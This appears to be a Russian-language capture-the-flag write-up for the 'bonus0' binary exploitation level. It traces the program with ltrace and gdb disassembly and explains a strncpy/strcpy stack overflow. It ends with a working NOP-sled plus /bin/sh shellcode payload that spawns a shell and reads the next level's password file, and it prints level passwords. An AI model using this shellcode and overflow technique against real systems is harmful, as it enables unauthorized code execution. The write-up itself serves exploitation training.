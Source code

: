 # su bonus0
# pass: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

====
Уязвимость: strncpy + strcpy переполнение, вызов шеллкода из другого буфера
====

**Поведение: ждёт ввода ввод 2 строк, разделяя их " - "**
Если в 1 строку передать много символов, то она появится во второй (переполнение). 

# ltrace ./bonus0 
__libc_start_main(0x80485a4, 1, 0xbffff804, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - 
)                                                                    = 4
read(0, 123
"123\n", 4096)                                                         = 4
strchr("123\n", '\n')                                                          = "\n"
strncpy(0xbffff6e8, "123", 20)                                                 = 0xbffff6e8
puts(" - " - 
)                                                                    = 4
read(0, 123
"123\n", 4096)                                                         = 4
strchr("123\n", '\n')                                                          = "\n"
strncpy(0xbffff6fc, "123", 20)                                                 = 0xbffff6fc
strcpy(0xbffff736, "123")                                                      = 0xbffff736
strcat("123 ", "123")                                                          = "123 123"
puts("123 123"123 123
)                                                                = 8
+++ exited (status 0) +++

Посмотрим функции: 

# i func
<>
0x080484b4  p
0x0804851e  pp
0x080485a4  main
<>

В мейне просто вызывается pp с буфером и вывод на экран того, что она возвращает

# disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp                   64
   0x080485ad <+9>:     lea    0x16(%esp),%eax              22
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
   0x080485b9 <+21>:    lea    0x16(%esp),%eax
   0x080485bd <+25>:    mov    %eax,(%esp)
   0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave  
   0x080485cb <+39>:    ret    
End of assembler dump.

В pp 2 раза вызывается p функция с двумя буферами, а затем формируется общий буфер (две строки соединяются)

# disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:     push   %ebp
   0x0804851f <+1>:     mov    %esp,%ebp
   0x08048521 <+3>:     push   %edi
   0x08048522 <+4>:     push   %ebx
   0x08048523 <+5>:     sub    $0x50,%esp                       80
   0x08048526 <+8>:     movl   $0x80486a0,0x4(%esp)             " - "
   0x0804852e <+16>:    lea    -0x30(%ebp),%eax                 -48
   0x08048531 <+19>:    mov    %eax,(%esp)
   0x08048534 <+22>:    call   0x80484b4 <p>                    p(" - ")
   0x08048539 <+27>:    movl   $0x80486a0,0x4(%esp)             " - "
   0x08048541 <+35>:    lea    -0x1c(%ebp),%eax                 -28
   0x08048544 <+38>:    mov    %eax,(%esp)
   0x08048547 <+41>:    call   0x80484b4 <p>
   0x0804854c <+46>:    lea    -0x30(%ebp),%eax                 -48
   0x0804854f <+49>:    mov    %eax,0x4(%esp)
   0x08048553 <+53>:    mov    0x8(%ebp),%eax
   0x08048556 <+56>:    mov    %eax,(%esp)
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:    mov    $0x80486a4,%ebx                  " "
   0x08048563 <+69>:    mov    0x8(%ebp),%eax
   0x08048566 <+72>:    movl   $0xffffffff,-0x3c(%ebp)          -60
   0x0804856d <+79>:    mov    %eax,%edx
   0x0804856f <+81>:    mov    $0x0,%eax
   0x08048574 <+86>:    mov    -0x3c(%ebp),%ecx                 -60
   0x08048577 <+89>:    mov    %edx,%edi
   0x08048579 <+91>:    repnz scas %es:(%edi),%al               !=0 
   0x0804857b <+93>:    mov    %ecx,%eax
   0x0804857d <+95>:    not    %eax
   0x0804857f <+97>:    sub    $0x1,%eax                        1
   0x08048582 <+100>:   add    0x8(%ebp),%eax
   0x08048585 <+103>:   movzwl (%ebx),%edx
   0x08048588 <+106>:   mov    %dx,(%eax)
   0x0804858b <+109>:   lea    -0x1c(%ebp),%eax                 -28
   0x0804858e <+112>:   mov    %eax,0x4(%esp)
   0x08048592 <+116>:   mov    0x8(%ebp),%eax
   0x08048595 <+119>:   mov    %eax,(%esp)
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
   0x0804859d <+127>:   add    $0x50,%esp                       80
   0x080485a0 <+130>:   pop    %ebx
   0x080485a1 <+131>:   pop    %edi
   0x080485a2 <+132>:   pop    %ebp
   0x080485a3 <+133>:   ret    
End of assembler dump.

В p происходит чтение 

# disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   %ebp
   0x080484b5 <+1>:     mov    %esp,%ebp
   0x080484b7 <+3>:     sub    $0x1018,%esp                     4120
   0x080484bd <+9>:     mov    0xc(%ebp),%eax                   12
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)                4096
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax               -4120
   0x080484d6 <+34>:    mov    %eax,0x4(%esp)
   0x080484da <+38>:    movl   $0x0,(%esp)                      0
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
   0x080484e6 <+50>:    movl   $0xa,0x4(%esp)                   10
   0x080484ee <+58>:    lea    -0x1008(%ebp),%eax               -4120
   0x080484f4 <+64>:    mov    %eax,(%esp)
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    movb   $0x0,(%eax)                      0
   0x080484ff <+75>:    lea    -0x1008(%ebp),%eax               -4120
   0x08048505 <+81>:    movl   $0x14,0x8(%esp)                  20
   0x0804850d <+89>:    mov    %eax,0x4(%esp)
   0x08048511 <+93>:    mov    0x8(%ebp),%eax                   8
   0x08048514 <+96>:    mov    %eax,(%esp)                      
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:   leave  
   0x0804851d <+105>:   ret    
End of assembler dump.

В strncpy стоит ограничение по количеству символов для копирования (20). В буфер запишется не более 20 символов. Два буфера разделены пробелом. Не получится записать шеллкод. Но есть большой буфер в функции p, куда мы можем положить шелл код, и он останется там.

Есть фишка в функции strncpy - если подать 20+ символов, то она скопирует ровно 20 и не добавит \0 в конце. То есть потом, когда будет вызвана strcpy, то она скопирует всё, пока не встретит \0 (то есть, будет брать и мусор). Таким образом через переполнение можно добавить в адрес возврата адрес в буфере, где лежит шеллкод.

Для шеллкода используем nop (команда ничего - просто идет дальше), таким образом получится просто дойти до шелл кода, а адрес можно вызвать "приблизительный" между началом буфера и началом шеллкода. 
# b *p+28
# x $ebp-0x1008
0xbfffe630 - начало буфера

Рандомный сдвиг, главное уложиться до 1000
0xbfffe874 - адрес


# python -c 'print "\x90" * 1000+"\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x53\x89\xE1\xB0\x0B\xCD\x80" + "\x90" * 3072 + "\n" + "B" * 14 + "\x74\xe8\xff\xbf\xff" + "\n"' > /tmp/b0

# cat /tmp/b0 - | ./bonus0

# cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9